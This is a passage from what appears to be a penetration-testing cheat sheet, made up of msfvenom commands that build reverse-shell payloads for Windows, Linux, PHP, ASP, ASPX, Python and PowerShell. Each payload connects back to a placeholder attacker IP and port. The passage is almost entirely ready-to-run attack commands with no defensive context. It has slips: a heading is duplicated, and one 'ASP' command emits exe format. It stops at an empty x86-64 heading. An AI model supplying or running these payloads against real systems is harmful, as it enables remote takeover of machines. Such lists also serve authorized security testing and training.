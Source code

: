 `$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x64.exe`

`$ msfvenom -p windows/x64/shell/reverse_tcp_rc4 lhost=<IP> lport=<PORT> rc4password="<KEY>" -f exe -o shell-enc-x64.exe`

##### 2.5.1.2 - Staged Linux Reverse Shells

- **x86 (32-bit) Payloads**

`$ msfvenom -p linux/x86/shell/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o shell-x86`

- **x86-64 (64-bit) Payloads**

`$ msfvenom -p linux/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o shell-x64`

##### 2.5.1.3  - Staged Linux Reverse Shells

1. **PHP**

`$ msfvenom -p php/reverse_php lhost=<IP> lport=<PORT> -f raw -o shell.php`

`$ msfvenom -p php/reverse_perl lhost=<IP> lport=<PORT> -f raw -o shell.php`

`$ cat shell.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> shell.php`

2. **ASP**

- x86 (32-bit) Payloads

`$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x86.asp`

- x86_64 (64-bit) Payloads

`$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x64.asp`

3. **ASPX**

- x86 (32-bit) Payloads

`$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x86.aspx`

- x86_64 (64-bit) Payloads

`$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x64.aspx`

##### 2.5.1.4 - Stageless Python Reverse Shells

`$ msfvenom -p python/shell_reverse_tcp lhost=<IP> lport=<PORT> -o shell.py`

`$ msfvenom -p python/shell_reverse_tcp_ssl lhost=<IP> lport=<PORT> -o shell.py`

`$ msfvenom -p python/shell_reverse_udp lhost=<IP> lport=<PORT> -o shell.py`

##### 2.5.1.5  - Stageless Windows Reverse Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p cmd/windows/powershell_reverse_tcp lhost=<IP> lport=<PORT> -o shell.ps1`

`$ msfvenom -p windows/powershell_reverse_tcp lhost=<IP> lport=<PORT> -o shell.ps1`

2. **x86-64 (64-bit) Payloads**
